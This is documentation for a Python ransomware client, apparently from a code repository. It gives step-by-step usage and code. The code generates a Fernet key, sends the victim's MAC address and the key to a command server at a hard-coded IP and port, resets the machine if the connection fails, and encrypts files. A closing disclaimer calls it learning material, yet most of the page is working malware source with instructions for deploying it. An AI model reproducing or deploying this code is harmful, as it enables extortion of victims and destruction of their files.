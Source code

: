 # Client Documentation

This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm. To use the ransomware, first import the necessary modules, including time, system utilities, encryption tools, and socket communication. Then, define the `Ransomware` class, initializing it with the server's host and port. Connect to the server using the `ConnectServer` method, which attempts to establish a connection and sends system information along with an encryption key. Once connected, you can encrypt files using the `Encrypted` method and decrypt them using the `Decrypted` method. Finally, instantiate the `Ransomware` class and execute the ransomware script, ensuring that the server's host and port are configured correctly.

1. **Import the necessary modules**:
   ```python
   from time import sleep
   from modules.system import System
   from modules.encdec import Fernet, Encrypt, Decrypt
   from socket import socket, AF_INET, SOCK_STREAM
   ```
- This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm.

2. **Class Ransomware**:
    ```python
    def __init__(self, host: str, port: int) -> None:
        self.key = Fernet.generate_key()
        self.host = host
        self.port = port
        self.system: System = System()
        self.server: socket = socket(AF_INET, SOCK_STREAM)
        self.Private = Fernet(self.key)
    ```
- Generate a random encryption key, initialize `System` object. 
- Create a `socket` for communication and a `Fernet` instance for encryption/decryption.

    ```python
    def ConnectServer(self, connected = False) -> None:
        retries = 0
        while not connected and retries < 3:
            try:
                self.server.connect((self.host, self.port))
                self.server.sendall(f'{self.system.Mac()}|{self.key.decode("utf-8")}'.encode('utf-8'))
                connected = True
            except:
                retries += 1
                if retries < 3:
                    sleep(10)
                else:
                    System.reset()
            finally:
                self.server.close()
    ```
 - The `ConnectServer` method attempts to connect to the server via the provided IP address and port. If it cannot connect after 3 attempts, the system will reset.

    ```python
    def Encrypted(self):
        Encrypt(self.Private)
    
    def Decrypted(self):
        Decrypt(self.Private)
    ```
 - The `Encrypted` method encrypts data using the generated private key.
 - The `Decrypted` method decrypts data using the same private key.
    
    ```python
    if __name__ == '__main__':
        bot = Ransomware('192.168.1.12', 19100)
        bot.ConnectServer()
        bot.Encrypted()
    ```
 - When initializing a `Ransomware` object, you need to provide the IP address (`host`) and port (`port`) of the server you want to connect to.


**Please note**: *This code should only be used for learning purposes. Using it to perform illegal activities (such as cyber attacks) can lead to serious legal consequences. Always comply with legal regulations when using and developing open source code.*
